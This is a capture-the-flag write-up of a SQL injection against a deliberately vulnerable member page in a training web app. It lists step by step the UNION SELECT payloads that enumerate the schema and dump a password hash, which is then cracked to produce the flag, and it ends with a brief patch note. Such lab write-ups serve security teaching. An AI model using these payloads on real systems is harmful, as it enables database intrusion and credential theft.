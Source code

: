# Exploit
We visit the url "/index.php?page=member". We try some random input like quote or comment for example and we see that sql show us the error when executing a wrong query. So this page is vulnerable and we are going to use the error log to get what we want.

We try to figure out how many column are used for the result. We use this request and "1 order by n" until we get an error. We can use "1 order by 2" but not "1 order by 3" so we have 2 columns in the query.
We retrieve the database name with the following query "1 union all select 1,database()" and we get "Member_Sql_Injection". We also retrieve the version of sql with "1 union all select 1,version()" and we get "5.5.44-0ubuntu0.12.04.1".

Since this sql version is more than 5.0.0, we can use the schema and use the following query "1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database()" to get the table name who is "users". Same thing for the columns name but we use "users" with hex encoded string to avoid error with this query "1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x7573657273" who give us "user_id,first_name,last_name,town,country,planet,Commentaire,countersign". We check the "Commentaire" column with this query "1 union all select 1,group_concat(Commentaire,0x0a) from users", we get "Decrypt this password -> then lower all the char. Sh256 on it and it's good !".

We retrieve the "countersign" column with "1 union all select 1,group_concat(countersign,0x0a) from users", we get "5ff9d0165b4f92b14994e5c685cdce28" and we follow the instructions. We use [md5decrypt.net](https://md5decrypt.net), get "FortyTwo", we lowercase all the characters and use sha256 with 'fortytwo': 

```bash
echo -n fortytwo | shasum -a 256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```

The flag is **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**

```
All the queries used for this exploit:
1 order by 2
1 union all select 1,version()
1 union all select 1,2
1 union all select 1,database()
1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database()
1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x7573657273
1 union all select 1,group_concat(Commentaire,0x0a) from users
1 union all select 1,group_concat(countersign,0x0a) from users
```

# Patch
Just prepare the request and sanitize user input (with a filter for characters for example).